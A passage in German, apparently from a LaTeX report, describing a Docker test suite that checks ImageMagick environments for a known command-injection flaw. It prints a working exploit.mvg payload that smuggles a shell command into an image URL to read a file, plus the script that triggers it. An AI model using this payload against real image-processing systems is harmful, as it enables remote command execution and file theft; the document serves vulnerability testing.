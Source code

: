 Es wird eine Datei erstellt, die per Exploit ausgelesen werden soll.

\begin{lstlisting}[language=Text, caption=Geheime Datei in Testsuite,label={lst:testsuiteprivatefile}]
> cat PRIVATE_FILE
PRIVATE-CONTENT
\end{lstlisting}
\vspace{5mm}


Diese Datei wird im nachfolgend von ImageMagick aufgerufen und enthält den Code,
welcher den Inhalt der PRIVATE\_FILE ausgibt.

\begin{lstlisting}[language=Text, caption=exploit.mvg in Testsuite,label={lst:testsuiteexploit}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://testimage.png"|cat "PRIVATE_FILE)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Eine Beschreibung, warum der hinterlegte Code ausgeführt wird, ist im Kapitel "`Details der Schwachstelle"' zu finden .



\begin{lstlisting}[language=Text, caption=entryPoint.sh in Testsute,label={lst:testsuiteentry}]
#!/bin/bash

identify exploit.mvg
echo 'AFTER_IDENTIFY'
\end{lstlisting}
\vspace{5mm}

Dieses Shell-Script wird von jedem Dockerfile aufgerufen, um den Exploit auszunutzen.
Dabei wird die identify-Funktion von Imagemagick angesprochen.\\

Das nachfolgende echo wird als Flag benutzt, um sicherzustellen, dass entryPoint.sh auch wirklich aufgerufen wird.
Dies wird später in test.sh etwas genauer erläutert.



Hier handelt es sich um ein valides JPEG-Bild File,
welches bei dem eigentlichen Test nicht direkt benötigt,
jedoch zu debug zwecken nützlich ist,
um die generelle Funktionsfähigkeit von Imagemagick und dem Identify Befehl zu testen.



Mit diesem Script wird der Test einer speziellen Umgebung angestoßen.
Hierbei wird der Name des Dockerfiles als ersten Parameter übergeben.

